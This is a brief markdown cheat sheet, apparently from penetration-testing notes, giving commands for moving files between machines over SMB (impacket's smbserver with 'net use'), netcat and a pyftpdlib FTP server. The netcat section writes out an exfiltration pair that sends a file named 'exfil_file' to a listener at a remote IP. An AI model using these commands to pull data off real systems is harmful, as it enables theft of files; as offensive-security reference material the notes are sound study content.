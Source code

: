 **SMB :**
- Linux machine: 
```sh
smbserver.py smb share/ -smb2support
```

- Windows machine: 
```sh
net use \\ip\smb
```

**NC :**
```sh
nc -lvnp 4444 > new_file #receving machine
nc.exe -vn 10.8.3.12 4444 < exfil_file #sending machine
```

**FTP :** 
```sh
pip3 install pyftpdlib
python3 -m pyftpdlib -p 21
```

